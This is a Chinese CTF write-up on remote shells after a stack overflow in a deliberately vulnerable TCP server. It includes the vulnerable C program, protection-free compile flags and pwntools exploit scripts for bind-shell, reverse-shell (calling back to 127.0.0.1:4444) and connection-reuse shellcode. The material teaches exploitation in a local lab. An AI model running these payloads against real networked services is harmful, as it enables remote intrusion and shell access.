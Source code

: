 ```yaml
---
title: Getshell远程：真·RCE 正连？反连？不连？ 
date: 2020-12-13 00:00:03
categories:
- CTF/Pwn
tags: Getshell
---
```


> 真实的网络程序和Pwn题目中把输入输出映射到网络端口，二者程序本体的交互接口显然是不同的，后一种的CTF题目，真的具有现实意义么？如果是真的网络程序，我控制流劫持后直接执行system("/bin/sh")可以拿到shell么？如果不能，我如何才能Getshell呢？本篇我们通过一个例题回答上述问题。

## socket

在看例题之前，首先要知道一个真实的网络程序是怎样实现的。在学习计算机网络时我们了解TCP/IP协议栈，在平日的安全研究中，我们能观察到一个程序使用了某个TCP端口，可以用wireshark抓到其通信的流量进而分析，如果分析出什么毛病，则可以用pwntools这种工具来完成基于网络信道的攻击。不过在以上的过程中，似乎并没有了解到我们到底是怎么把数据包发出去的，是从哪个接口来控制的TCP/IP这套协议栈。其实这个接口就是socket，linux提供给用户态程序来控制网络的接口。**一句话理解：socket是API，背后实现了TCP/IP协议栈。**

- [Socket API](https://www.jianshu.com/p/0daaa67dfa29)
- [一文让你透彻理解Linux的SOCKET编程（含实例解析）](https://zhuanlan.zhihu.com/p/180556309)
- [sockaddr和sockaddr_in详解](https://blog.csdn.net/qingzhuyuxian/article/details/79736821)
- [Socket为什么要翻译成套接字？](https://www.zhihu.com/question/21383903)
- [Beej's Guide to Network Programming](https://beej.us/guide/bgnet/)
- [Beej's Guide to Network Programming 翻译](https://github.com/y11022053/Beej-s-Guide_Network_Programming_Chinese_Edition/blob/master/bgnet_cn_michael.txt)
- [Beej's Guide to Network Programming 正体中文版](https://beej-zhtw-gitbook.netdpi.net/)

阅读完以上文章就大概明白了，一个网络连接对应了一个文件描述符，发送和接收数据最基本的方法和文件操作是完全一致的，就是`read/write`。

## 例题

一个简单的栈溢出，不过输入接口是程序自身的启动的网络接口（tcp:8888）

```c
#include <stdio.h>
#include <unistd.h>
#include <sys/socket.h>
#include <arpa/inet.h>

int main (int argc, char **argv)
{
  int  s,c,j  =  0xe4ff;
  char buf[10];
  
  struct sockaddr_in server; 
  server.sin_family      = AF_INET;
  server.sin_addr.s_addr = INADDR_ANY;
  server.sin_port        = htons(8888);

  s = socket(AF_INET,SOCK_STREAM,0);
      bind  (s,(struct sockaddr *)&server,sizeof(server));
      listen(s,10);
  c = accept(s,NULL,NULL);
      read  (c,buf,1000);

  return 0;
}
```

关闭所有保护编译：

```c
➜  gcc main.c -fno-stack-protector -z execstack -no-pie -o main
```

特意预留了0xe4ff这个变量，小端存储对应的机器码就是`jmp rsp`：

```python
>>> from pwn import *
>>> context(arch='amd64')
>>> disasm('\xff\xe4')
'   0:   ff e4          jmp    rsp'
```

找到编译后这个gadget的地址，即可写利用了：

```python
➜  ROPgadget --binary ./main | grep "jmp rsp"
0x0000000000400698 : jmp rsp
```

这里我们全部使用pwntools提供的[shellcraft](https://docs.pwntools.com/en/stable/shellcraft/amd64.html?highlight=shellcraft)中的shellcode来解题。在常见的CTF题目中，由于和目标程序交互的本质就是标准输入输出，所以直接使用`shellcraft.sh()`，即可执行shell程序并且和我们交互。但是如果用这种方法攻击此例题，则题目本地侧弹出一个shell，远程并无法Getshell：

```python
from pwn import *
context(arch='amd64',os='linux')
io = remote("127.0.0.1",8888)
shellcode = asm(shellcraft.sh())
io.send('a'*40+p64(0x400698)+shellcode)
```

![image](https://xuanxuanblingbling.github.io/assets/pic/shell/1.png)

那我们如何才能Getshell呢？有如下三种办法：

### 正连

shellcode的功能为：让漏洞程序在其本地开启一个网络端口，并在有连接连入时将shell进程的输入输出绑定到该连接上。在msf中这个叫`shell_bind_tcp`，在pwntools中叫`shellcraft.bindsh()`，参数可以指定端口。如下，我们shellcode将shell开在目标机器的4444端口，然后继续用pwntools的去连接该端口即可在攻击窗口中获得一个交互式的shell。

```python
from pwn import *
context(arch='amd64',os='linux')

io = remote("127.0.0.1",8888)
sc = asm(shellcraft.bindsh(4444))
io.send('a'*40+p64(0x400698)+sc)

sh = remote("127.0.0.1",4444)
sh.interactive()
```

![image](https://xuanxuanblingbling.github.io/assets/pic/shell/2.png)

### 反连

shellcode的功能为：让漏洞程序去连接远程的攻击者机器，并且将shell进程的输入输出绑定到此连接上。在msf中这个叫`shell_reverse_tcp`，在pwntools中需要两步`shellcraft.connect()+shellcraft.dupsh()`。根据文档，第一步会把与攻击者建立连接的文件描述符存放到rbp寄存器中，第二步会默认使用rbp寄存器中的文件描述符来重定向shell进程的输入和输出，即完成反连shell。

- [Linux反弹shell（一）文件描述符与重定向](https://xz.aliyun.com/t/2548)
- [Linux反弹shell（二）反弹shell的本质](https://xz.aliyun.com/t/2549)
- [Linux下几种常见的反弹shell方式](https://www.jianshu.com/p/9456473a0a14)

如下，攻击侧首先使用pwntools的`listen`函数监听本机的4444端口，然后shellcode执行后将shell反弹到攻击侧的4444端口，然后使用pwntools的`wait_for_connection`函数等待反连的连接，连入后即可在攻击窗口中获得一个交互式的shell。

```python
from pwn import *
context(arch='amd64',os='linux')

sh = listen(4444)
io = remote("127.0.0.1",8888)
shellcode = asm(shellcraft.connect('127.0.0.1',4444)+shellcraft.dupsh())
io.send('a'*40+p64(0x400698)+shellcode)

sh.wait_for_connection()
sh.interactive()
```

![image](https://xuanxuanblingbling.github.io/assets/pic/shell/3.png)

### 不连

> [远程漏洞利用：无需借助套接字的Shellcode](https://www.anquanke.com/post/id/85306)

其实并不可能不连。你要远程攻击他，那必定得有数据通路，所以可以复用你攻击打过去的这个连接来获得交互shell。这个不连其实是不产生新的连接，也就是连接复用。在msf中这个叫`shell_find_port`。在pwntools有两种办法可以实现这个复用，第一个是直接用`dupsh()`，参数的立即数直接猜我们打过去连接的文件描述符的编号，第二种方法是`findpeersh`，参数可以指明连接的端口号以挑选出合适的连接（没太研究明白是哪侧的端口）。此种方法在实际演示漏洞中几乎是没有必要的，除非是网络出入规则及其严格的情景下，或者比较古怪的CTF题目中既不让你正连，也不让你反连。如：[X-NUCA 2020 Final 团队赛：QMIPS](https://xuanxuanblingbling.github.io/ctf/pwn/2020/12/11/xnuca/)

本题如下，直接在攻击连接上获得交互式shell，并不用产生多余的连接。

```python
from pwn import *
context(arch='amd64',os='linux')
io = remote("127.0.0.1",8888)
#shellcode = asm(shellcraft.dupsh(4))
shellcode = asm(shellcraft.findpeersh(io.lport))
io.send('a'*40+p64(0x400698)+shellcode)
io.interactive()
```

![image](https://xuanxuanblingbling.github.io/assets/pic/shell/4.png)

### 总结

> 媳妇的本题练习：[深入理解pwn题中的正连/反连tcp](https://blingblingxuanxuan.github.io/2021/03/21/reverse-tcp/)


以上五种shellcode罗列如下：

```python
from pwn import *
context(arch='amd64',os='linux')
io = remote("127.0.0.1",8888)
#shellcode = asm(shellcraft.sh())
#shellcode = asm(shellcraft.amd64.linux.bindsh(4444))
#shellcode = asm(shellcraft.connect('127.0.0.1',4444)+shellcraft.dupsh())
#shellcode = asm(shellcraft.dupsh(4))
#shellcode = asm(shellcraft.findpeersh(io.lport))
io.send('a'*40+p64(0x400698)+shellcode)
io.interactive()
```

- msf的shellcode可以使用 `msfvenom --list payloads` 查找
- pwntools的shellcode可以直接在文档中查找：[shellcraft](https://docs.pwntools.com/en/stable/shellcraft/amd64.html?highlight=shellcraft)

其实这五种shellcode，只要执行了，都是远程代码执行（RCE），但在攻击侧获得一个交互式shell的是后四种。


## 回答

- 问：如果是真的网络程序，我控制流劫持后直接执行system("/bin/sh")可以拿到shell么？
- 答：不能在远程拿到shell。

- 问：以上情节，如何远程Getshell呢？
- 答：正连、反连、不连。

- 问：把标准输入输出映射到网络端口的CTF题目，真的具有现实意义么？
- 答：有，其实就是换个shellcode的事。